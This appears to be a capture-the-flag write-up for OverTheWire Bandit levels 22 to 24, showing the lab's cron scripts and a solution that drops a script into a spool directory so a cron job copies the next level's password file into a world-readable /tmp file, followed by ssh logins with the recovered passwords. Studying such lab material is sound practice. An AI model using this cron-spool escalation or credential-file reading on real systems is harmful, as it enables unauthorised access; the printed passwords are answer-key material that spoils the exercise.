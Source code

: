 #!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

    echo I am user bandit23 | md5sum | cut -d ' ' -f 1

    ssh -p 2220  bandit23@bandit.labs.overthewire.org
    jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

## Level 23 -> 24

    cat /etc/cron.d/cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
  


#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

    mkdir /tmp/pass24
    cd /tmp/pass24
    nano password.sh

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/pass24/password.txt

    chmod 777 password.sh
    touch password.txt
    chmod 777 password.txt
    cp password.sh /var/spool/bandit24/
    cat password.txt

    ssh -p 2220  bandit24@bandit.labs.overthewire.org
    UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
